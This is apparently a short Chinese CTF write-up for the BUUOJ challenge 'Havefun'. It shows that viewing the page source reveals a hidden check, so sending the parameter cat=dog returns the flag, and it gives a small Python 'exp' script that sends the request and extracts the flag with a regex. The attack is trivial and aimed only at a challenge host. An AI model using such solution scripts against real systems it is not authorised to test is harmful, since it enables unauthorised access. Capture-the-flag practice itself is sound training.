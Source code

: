 # 分析

来自[[极客大挑战 2019]Havefun](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Havefun)

一看没啥功能的页面，F12查看源代码，

![image-20240625150347932](image/image-20240625150347932.png)

发现只需要提交参数cat，且参数等于dog，则打印flag，payload=`http://017e6dae-934b-4992-9089-7f76f0aa8441.node5.buuoj.cn:81/?cat=dog`

![2024-06-25_15-06-32](image/2024-06-25_15-06-32.png)

# exp

```python
import requests
import re

url = "http://017e6dae-934b-4992-9089-7f76f0aa8441.node5.buuoj.cn:81/"
params = {
    'cat': "dog",
}
res = requests.get(url, params=params)
if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = r"flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

